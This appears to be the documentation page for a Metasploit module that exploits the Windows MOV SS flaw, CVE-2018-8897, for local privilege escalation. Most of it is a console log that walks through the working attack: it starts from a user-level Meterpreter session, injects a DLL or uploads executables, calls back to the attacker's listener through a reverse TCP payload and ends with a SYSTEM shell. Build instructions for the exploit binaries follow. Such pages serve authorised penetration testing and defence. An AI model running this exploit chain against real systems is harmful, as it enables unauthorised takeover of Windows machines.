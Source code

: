 ## Description

This module exploits a MOV SS vulnerability that is specifically made against Microsoft Windows
(except for Windows XP).

Depending on the value of `USE_INJECTION` It will either inject a dll with the exploit
code into a process, or it will upload a pre-compiled exploit onto the target machine, followed
by the final payload (such as a Meterpreter) in order to gain remote code execution.

## Vulnerable Target

Please note that this module may not work with certain hypervisors (such as VMWare). You should
test it on a real machine if possible.

## Verification Steps
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.135.111:4567
[*] Sending stage (206403 bytes) to 192.168.136.142

meterpreter > getuid
Server username: DESKTOP-QGIC71I\msfuser
meterpreter > sysinfo
Computer        : DESKTOP-QGIC71I
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/mov_ss
msf5 exploit(windows/local/mov_ss) > show options

Module options (exploit/windows/local/mov_ss):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   EXECUTE_DELAY  3                no        The number of seconds to delay before executing the exploit if USE_INJECTION=false
   EXPLOIT_NAME                    no        The filename to use for the exploit binary if USE_INJECTION=false (%RAND% by default).
   PATH                            no        Path to write binaries if if USE_INJECTION=false(%TEMP% by default).
   PAYLOAD_NAME                    no        The filename for the payload to be used on the target host if USE_INJECTION=false (%RAND%.exe by default).
   SESSION        1                yes       The session to run this module on.
   USE_INJECTION  true             yes       Use in-memory dll injection rather than exe file uploads.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.135.111  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/mov_ss) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/mov_ss) > set lhost 192.168.135.111
lhost => 192.168.135.111
msf5 exploit(windows/local/mov_ss) > set lport 4567
lport => 4567
msf5 exploit(windows/local/mov_ss) > run

[*] Started reverse TCP handler on 192.168.135.111:4567
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Checking target...
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Target looks good... reflectively injecting exploit DLL and triggering exploit!
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 192.168.136.142

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.136.142 - Meterpreter session 3 closed.  Reason: User exit
msf5 exploit(windows/local/mov_ss) > set USE_INJECTION false
USE_INJECTION => false
msf5 exploit(windows/local/mov_ss) > run

[*] Started reverse TCP handler on 192.168.135.111:4567
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Exploit uploaded on DESKTOP-QGIC71I to C:\Users\msfuser\AppData\Local\Temp\ACLgNJAJ.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-QGIC71I to C:\Users\msfuser\AppData\Local\Temp\kWDncKCjHtb.exe
[*] Running exploit C:\Users\msfuser\AppData\Local\Temp\ACLgNJAJ.exe with payload C:\Users\msfuser\AppData\Local\Temp\kWDncKCjHtb.exe
[*] Sending stage (206403 bytes) to 192.168.136.142
^C[-] Exploit failed: Interrupt
msf5 exploit(windows/local/mov_ss) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                Connection
  --  ----  ----                     -----------                                ----------
  1         meterpreter x64/windows  DESKTOP-QGIC71I\msfuser @ DESKTOP-QGIC71I  192.168.135.111:4567 -> 192.168.136.142:49696 (192.168.136.142)
  4         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-QGIC71I      192.168.135.111:4567 -> 192.168.136.142:49699 (192.168.136.142)

msf5 exploit(windows/local/mov_ss) > exit
```

## Build Instructions
For both the dll and exe, use Visual studio solutions found in
./external/source/exploits/cve-2018-8897
then copy the resulting binaries to
./data/exploits/cve-2018-8897
